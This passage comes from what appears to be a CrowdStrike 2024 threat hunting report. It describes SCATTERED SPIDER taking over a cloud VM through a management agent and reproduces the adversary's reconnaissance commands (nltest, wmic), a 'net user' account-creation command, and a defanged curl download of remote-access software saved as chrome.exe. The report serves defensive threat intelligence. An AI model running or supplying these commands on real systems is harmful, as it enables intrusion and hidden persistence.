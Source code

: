 One of the most proficient and prolific adversaries capable of cross\-domain 

attacks is SCATTERED SPIDER. Throughout 2023 and 2024, SCATTERED 

SPIDER demonstrated sophisticated cross\-domain tradecraft within targeted 

cloud environments, often leveraging spear\-phishing, policy modification and 

access to password managers to gain access, maintain persistence, move 

laterally and exfiltrate data. 

CROWDSTRIKE 2024 THREAT HUNTING REPORT 
 
16

 CASE STUDY: 

SCATTERED SPIDER Abuses 
Cloud Management Agent 
to Establish Persistence

In May 2024, CrowdStrike OverWatch observed SCATTERED SPIDER establish 

a foothold on a cloud\-hosted virtual machine (VM) instance via a cloud service 

VM management agent. To do so, the adversary compromised existing credentials 

to authenticate to the cloud control plane via an identified phishing campaign. 

After authenticating to the cloud console, the adversary established persistence 

by executing commands on the cloud\-hosted VM via the management agent.

After establishing an initial connection, SCATTERED SPIDER executed the 

ping command against several domains within and outside of the target 
organization, likely to identify their level of access and visibility within the 

network. The adversary then ran several variations of the nltest command 
to identify domain controllers (DCs) of interest and the wmic command to 
identify programs currently installed on the host.

nltest /dclist:

nltest /domain\_trusts

wmic product get name, version

Finally, the adversary established persistence by creating a new user on the host 

and attempting to download FleetDeck remote access software.

net user \[Redacted\-Username] \[Redacted\-Password]

curl \-L hxxps://agent.fleetdeck\[.]io/

M9zydGyGHrUXkhZeB9mj4?win \-o chrome.exe

CROWDSTRIKE 2024 THREAT HUNTING REPORT 
SCATTERED SPIDER 
Cross\-Domain Attack

17
17
